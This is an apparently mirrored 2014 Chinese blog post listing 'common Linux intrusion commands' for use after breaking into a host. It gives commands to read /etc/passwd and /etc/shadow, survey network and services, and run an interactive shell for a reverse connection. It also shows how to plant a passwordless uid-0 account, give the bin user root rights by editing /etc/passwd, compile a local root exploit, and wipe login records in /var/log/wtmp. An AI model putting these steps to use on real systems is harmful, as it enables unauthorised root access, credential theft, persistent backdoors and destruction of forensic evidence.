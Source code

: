 ```yaml
--- 
layout: post 
title: linux入侵常用命令 
date: '2014-01-09T13:10:00.001+08:00' 
author: Wenh Q
tags:
modified\_time: '2014-01-09T13:10:53.611+08:00' 
blogger\_id: tag:blogger.com,1999:blog-4961947611491238191.post-4749376341673506728
blogger\_orig\_url: http://binaryware.blogspot.com/2014/01/linux\_8419.html
---
```

在linux系统的学习使用中我们遇到很多命令，今天我们就学习一些常用[入侵](http://www.chinabyte.com/keyword/%E5%85%A5%E4%BE%B5/)命令，下面我们就进入正题。



　　cat /etc/passwd 查看linux用户



　　cat /etc/shadow 查看用户密码需要root权限



　　cat /etc/sysconfig/network-scripts/ifcfg-ethn N代表网卡号
查看所在网卡的ip信息



　　ifconfig 查看本机ip信息



　　cat /etc/resolv.conf 查看DNS信息



　　bash -i 在反弹的shell中使用可以直观显示命令



　　bash prompt:
当你以普通限权用户身份进入的时候，一般你会有一个类似bash
$的prompt。当你以Root登陆时，你的prompt会变成



　　bash
#。



　　系统变量 : 试着echo "
$USER / 
$EUID"
系统应该会告诉你它认为你是什么用户。



　　echo 1&gt;/proc/sys/net/ipv4/if\_forward是不是你写错了,应该是echo
1&gt;/proc/sys/net/ipv4/ip\_forward,



　　vim /proc/sys/net/ipv4/ip\_forward
吧,默认是0,也就是内核不进行数据包过滤,改为1
,让内核对数据包进行filter处理!



　　netstat -an |grep LISTEN |grep :80 查看端口



　　service --status-all | grep running



　　service --status-all | grep http



　　查看运行服务



　　lsb\_release -a 查看系统版本



　　重启[ssh](http://www.chinabyte.com/keyword/SSH/)服务
：/usr/sbin/sshd stop



　　/usr/sbin/sshd start



　　ssd\_config文件里



　　PasswordAuthentication no,



　　将其改为



　　PasswordAuthentication yes



　　远程ssh才可登录



　　否则显示Access denied



　　其中Usepam
yes可能用来建立pam方式login，比如从其它linux主机ssh到服务端，如果关闭，则不能打开.



　　su的菜鸟用法



　　先chomod 777 /etc/passwd



　　然后修改bin用户的gid和uid为0



　　然后passwd设置bin的密码



　　然后cp /bin/bash /sbin/nologin



　　然后su的时候su - bin就可以到rootshell了。



　　这个原理就是当ssh不允许root用ssh终端登陆的时候，我们又不知道root密码，的一种很菜鸟的做法



　　还可以这样



　　sed -i s/bin:x:1:1/bin:x:0:1/g /etc/passwd



　　gcc prtcl2.c –o local –static –Wall



　　echo "nosec:x:0:0::/:/bin/sh" &gt;&gt; /etc/passwd



　　echo "nosec::-1:-1:-1:-1:-1:-1:500" &gt;&gt; /etc/shadow



　　清空last记录 cp /dev/null /var/log/wtmp



　　-----



　　dd if=/dev/zero of=yourfile bs=10M count=10
建立一个100m的大文件在利用Linux Kernel &lt;= 2.6.17.4 (proc) Local Root
Exploit提权的时候要用到的


